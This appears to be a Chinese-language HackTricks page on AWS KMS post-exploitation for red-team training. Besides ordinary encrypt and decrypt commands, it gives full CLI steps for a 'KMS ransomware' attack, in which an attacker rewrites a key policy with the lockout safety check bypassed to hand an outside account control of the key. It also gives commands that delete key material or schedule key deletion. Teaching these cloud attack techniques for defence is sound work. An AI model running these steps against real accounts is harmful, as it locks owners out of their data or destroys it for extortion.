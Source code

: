 # AWS - KMS 后渗透

<details>

<summary><strong>从零到英雄学习 AWS 黑客技术</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想在 HackTricks 中看到您的**公司广告**或**下载 HackTricks 的 PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs 集合**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来**分享您的黑客技巧。

</details>

## KMS

更多信息请查看：

{% content-ref url="../../aws-security/aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../../aws-security/aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### 加密/解密信息

* 使用**对称**密钥
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* 使用**asymmetric**密钥：
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
### KMS 勒索软件

如果攻击者在 KMS 上拥有高级访问权限，他们可以修改密钥的 KMS 策略并**授予其账户对这些密钥的访问权限**，同时移除合法账户的访问权限。

然后，合法账户的用户将无法访问任何使用这些密钥加密的服务中的信息，从而创建了一种简单但有效的针对账户的勒索软件。

{% hint style="warning" %}
请注意，**AWS 管理的密钥不会受到**此攻击的影响，只有**客户管理的密钥**会受到影响。

还请注意使用参数 **`--bypass-policy-lockout-safety-check`** 的必要性（由于缺少这个选项在网络控制台中，这种攻击只能通过 CLI 实施）。
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
请注意，如果您更改该策略并且只允许外部账户访问，然后从这个外部账户尝试设置新策略以**将访问权限还给原始账户，您将无法做到**。
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 销毁密钥
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
请注意，AWS 现在**阻止跨账户执行以下操作：**
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>从零开始学习 AWS 黑客技术！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您希望在 HackTricks 中看到您的**公司广告**或**下载 HackTricks 的 PDF 版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方的 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 探索[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的 [**NFTs 集合**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来**分享您的黑客技巧。

</details>
